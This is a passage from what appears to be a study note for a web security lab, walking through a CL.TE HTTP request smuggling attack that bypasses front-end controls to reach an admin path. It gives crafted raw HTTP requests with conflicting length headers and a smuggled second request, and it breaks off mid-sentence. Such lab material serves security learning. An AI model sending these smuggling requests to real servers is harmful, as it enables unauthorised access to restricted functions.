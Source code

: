 The front-end sees two requests both for `/home` and so the requests are forwarded to the back-end. The back-end sees one request for `/home` and one for `/admin`. It assumes that the requests have passed through the front-end controls and grants access to the restricted URL.
# Exploiting CL.TE to Bypass Front-End Security

For example, try sending a request to the home page to Repeater and set it up by changing the request to HTTP/1.1 and changing the request method to POST and removing unnecessary headers:

```http
POST / HTTP/1.1
Host: 0a54004204172afd81621b5c003c001a.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 13
Transfer-Encoding: chunked

3
abc
0


```

>[!info]
>Since it is a CL.TE vulnerability, leave the Update Content-Length option on.

If it returns a 200 OK, request smuggling can start. To start, try adding a request to a random endpoint:

```http
POST / HTTP/1.1
Host: 0a54004204172afd81621b5c003c001a.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 13
Transfer-Encoding: chunked

3
abc
0

GET /fhdsjkfhsadlkj HTTP/1.1
```

Send it and then send a normal POST request such as:

```http
POST / HTTP/1.1
Host: 0a54004204172afd81621b5c003c001a.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 7

foo=bar
```

Invalid request may be returned because the request has two request methods:
